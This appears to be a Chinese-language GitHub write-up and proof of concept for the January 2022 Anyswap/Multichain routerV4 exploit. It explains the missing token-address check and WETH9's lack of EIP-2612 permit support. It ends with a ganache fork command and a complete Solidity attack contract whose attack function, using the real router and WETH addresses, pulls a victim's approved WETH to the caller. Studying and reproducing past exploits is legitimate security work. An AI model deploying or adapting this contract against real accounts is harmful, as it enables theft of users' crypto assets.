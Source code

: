 ### 事件简述

Anyswap是一个去中心化的跨链交换协议。

于2020年7月开始运行。

2021年7月11日, AnySwap Router V3 受到黑客攻击并损失787万美元。

2021年12月16日, Anyswap宣布更名为Multichain。

2022年1月18日，Multichain于medium发布漏洞预警信息，文章中称发现一严重漏洞，影响6个跨链Token，呼吁代币拥有者尽快转移资产。

尽管Multichain声称已经修复了漏洞，但是在当天还是有攻击者成功窃取了总价值约1400万美金的加密资产。



### 漏洞原理简析

1. `routerV4`合约没有对用户传入的Token地址做合法性校验

2. `WETH9`并不兼容`routerV4`的部分逻辑设计

* 漏洞代码

```js
function anySwap_OutUnderlying_WithPermit(
    address from,
    address token,
    address to,
    uint amount,
    uint deadline,
    uint8 v,
    bytes32 r,
    bytes32 s,
    uint toChainID
) external {
    address _underlying = AnyswapV1ERC20(token).underlying();
    IERC20(_underlying).permit(from, address(this), amount, deadline, v, r, s);
    TransferHelper.safeTransferFrom(_underlying, from, token, amount);
    AnyswapV1ERC20(token).depositVault(amount, from);
    _anySwapOut(from, token, to, amount, toChainID);
}
```


#### EIP-2612

EIP-2612为ERC-20标准增加了一个新的方法：`permit`

它允许用户在链下签署授权的交易，生成任何人都可以使用并提交给区块链的签名。

该标准优化了传统ERC20Token对用户不友好的两步过程：

```
approve + transferFrom
```

简单来说：过去要approve后我们才能把代币转给别的合约。
但如果该代币支持了permit(例如DAI)，那我们就可以透过在链下用私钥签署产生一个签名，
使用这个签名，别人（其他EOA或者合约地址）就可以帮我们呼叫permit然后把代币转走。

* 然而`WETH9`并不支持`EIP-2612`协议, AnySwap在功能设计上没有考虑到规避这一点


### 攻击步骤分析

* 在正常使用逻辑中

用户调用`anySwapOutUnderlyingWithPermit`函数, 传入的token地址应为Anyswap官方部署的`anyERC20`地址, 在成功校验用户传入的签名后, 进行与之对应的`ERC20`转账操作.

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/1.png)


事实上Anyswap并没有部署与`WETH9`对应的`anyWETH`合约, 于是攻击者自己部署了一个假的

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/2.png)


这样攻击者就绕过了签名的校验, 把受害人的`WETH`转到了自己的账户

### 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```


